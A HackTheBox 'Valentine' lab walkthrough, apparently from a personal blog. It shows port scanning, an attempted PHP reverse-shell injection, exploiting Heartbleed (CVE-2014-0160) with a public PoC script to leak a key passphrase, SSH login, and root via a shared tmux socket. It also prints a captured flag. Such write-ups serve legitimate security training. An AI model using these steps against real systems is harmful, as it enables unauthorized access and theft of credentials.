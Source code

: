 ```yaml
---
title: HackTheBox - Valentine
date: 2020-12-25 20:45:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, nmap scan vuln, CVE-2014-0160, heartbleed, linpeas, tmux, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/valentine.png
---
```


## Foothold

### `nmap` scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Valentine-full-port-scan.txt 10.10.10.79
Warning: 10.10.10.79 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.10.79
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-24T14:16:15+00:00; +3m43s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.2.22 (port 443)

Thanks to the [`nmap` scan](#nmap-scan-open-ports) we can identify a domain name: `valentine.htb`. Let's add it to `/etc/hosts`.

#### `dirb`

![dirb](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/dirb.png)

There is `cgi-bin` directory, is it to vulnerable to **Shellshock** ? Let's look for `.sh` file:

![sh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/sh.png)

Nothing found. Let's check the URLs that `dirb` has highlighted.

#####  `/dev` directory

There are two files in the `/dev` directory: 

![dev](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/dev.png)

- **notes.txt**:

![notes](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/notes.png)

- **hype_key**:

![hype_key](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/hype_key.png)

###### cyberchef

Via [CyberChef](https://gchq.github.io/CyberChef/), we decoded **hype_key**:

![cyberchef](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/cyberchef.png)

Since it's an **encrypted** RSA private key (as we can see on line 2), I will not try to log in with ssh, because it will certainly ask for the private key's password.

###### XSS / PHP injection

I saw that we can inject html/javascript code in both `/encode` and `/decode` directories:

![xss](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/xss-3.png)

So I tried to inject a tiny PHP reverse shell:

![php injection](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/php-injection.png)

After multiple attempts, I was pissed off so I ran another nmap scan.

### `nmap` scan (vuln)

```bash
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.79
```

![heartbleed](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/heartbleed.png)

The web server seems vulnerable to the **Heartbleed vulnerability** that affects OpenSSL. 

![xkcd heatbleed explanation](https://https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentines.xkcd.com/comics/heartbleed_explanation.png)

> The Heartbleed bug allows anyone on the Internet to read the memory of the systems affected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and users. [Source: [heartbleed.com](https://heartbleed.com/)]

We can confirm this by using `sslyze`:

![sslyze](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/sslyze.png)

In order to exploit it, we can use this [PoC script](https://gist.github.com/eelsivart/10174134).

When running the script we get an output with a lot of useless 00's:

```bash
$ python heartbleed.py 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.
$ python heartbleed.py $TARGET
```

![00](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/00.png)

Changing the line 116 allows us to reduce the payload size (0x40 to 0x10):

![payload length](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/payload_length.png)

We can run the script multiple times via the `-n` option. By doing so, we are able to read target's memory's content:

![secret](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/secret.png)
img
$ echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
heartbleedbelievethehype
```

`heartbleedbelievethehype` is probably the passphrase of the `hype_key` we found earlier. Let's give it a try with `hype` as username _(because of the filename)_ :

![ssh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/ssh.png)

## User (hype)

```bash
hype@Valentine:~/Desktop$ cat user.txt 
e6710a5464769fd5fcd216e076961750
hype@Valentine:~/Desktop$ 
```

This time, we do not know the password of the user so we cannot use `sudo` to check if there is a way to perform a privilege escalation.

Therefore, I will use [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to perform enumeration on the system.

> The URL [https://linpeas.sh/](https://linpeas.sh/) exists :D

There are unexpected directories in `/` that we have access:

![unexpected in root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-1.png)

![/.devs directory](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/devs.png)

The process below leads us to a privesc:

![strange process](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/linpeas-3.png)

```bash
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess
```

## Root

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/valentine/root.png)

___

## Useful links

- [CyberChef](https://gchq.github.io/CyberChef/)
- [CVE-2014-0160](http://cvedetails.com/cve/2014-0160/)
- [Heartbleed](https://heartbleed.com/)
- [Heartbleed exploit PoC](https://gist.github.com/eelsivart/10174134)
